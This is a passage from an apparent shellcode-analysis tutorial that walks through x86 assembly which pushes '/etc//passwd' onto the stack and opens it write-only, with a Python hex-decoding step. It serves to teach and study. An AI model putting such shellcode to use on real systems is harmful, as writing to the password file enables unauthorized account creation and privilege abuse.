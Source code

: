 <pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>xor ecx,ecx            <span style="color:#33cccc;">; zero out ecx</span> 
push ecx               <span style="color:#33cccc;">; push null on the stack</span></strong></pre>
<p style="text-align:justify;">As for the first argument of the <strong>open</strong>&nbsp;syscall there are three <strong>push</strong> instructions that will construct the pathname of the file as seen below</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>push dword 0x64777373 <span style="color:#33cccc;">; push sswd  on the stack</span> 
push dword 0x61702f2f <span style="color:#33cccc;">; push //pa  on the stack</span> 
push dword 0x6374652f </strong><span style="color:#33cccc;"><strong>; push /etc/ on the stack</strong> </span></pre>
<p style="text-align:justify;">With little help of python scripting we will convert the hex values above into ASCII text format and then the result will give us the file path ("<strong>/etc//passwd</strong>") in reverse order that will be used as the first argument of the <strong>open</strong>&nbsp;syscall.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;">&gt;&gt;&gt; "73737764".decode("hex")
'sswd'
&gt;&gt;&gt; "2f2f7061".decode("hex")
'//pa'
&gt;&gt;&gt; "2f657463".decode("hex")
'/etc'</pre>
<p style="text-align:justify;">Then the stack pointer will point&nbsp; to "<strong>/etc//passwd</strong>" using the <strong>mov ebx, esp</strong> instruction.</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>mov ebx,esp      <span style="color:#33cccc;">;perform stack alignment in order the esp to point to "/etc/passwd"</span></strong></pre>
<p style="text-align:justify;">Later on the <strong>ecx</strong> register will be increased by one using the <strong>inc ecx</strong> instruction that will be used to set the second argument of the <strong>open</strong> syscall. As we saw before, the <strong>ecx</strong> register was assigned with the <strong>0x0</strong> value.&nbsp;</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>inc ecx          <span style="color:#33cccc;">; increase ecx register</span></strong></pre>
<p style="text-align:justify;">When increasing <strong>ecx</strong> register by one using instruction <strong>inc ecx</strong> we are masking the bits in order to have the <strong>O_WRONLY</strong> flag set. As we know the <strong>ecx</strong> register has the size of 32bits,&nbsp; the <strong>cx</strong> register has the size of 16bits, and the lower bytes <strong>cl</strong> register has the size of 8bits. Increasing the <strong>ecx</strong> register by one will change the lower 8bits <strong>cl</strong> register as follows</p>
<pre style="color: white;background: #000000;border: 1px solid #ddd;border-left: 3px solid #f36d33;page-break-inside: avoid;font-family: Courier New;font-size: 16px;line-height: 1.6;margin-bottom: 1.6em;max-width: 100%;padding: 1em 1.5em;display: block;white-space: pre-wrap;white-space: -moz-pre-wrap;white-space: -pre-wrap;white-space: -o-pre-wrap;word-wrap: break-word;"><strong>                       ECX</strong>
  <strong>32</strong>--------------------------------------------
                                    <strong>CX</strong>
    --------------------<strong>16</strong>----------------------
                              <strong>CH</strong>          <span style="color:#ff0000;"><strong>CL</strong></span>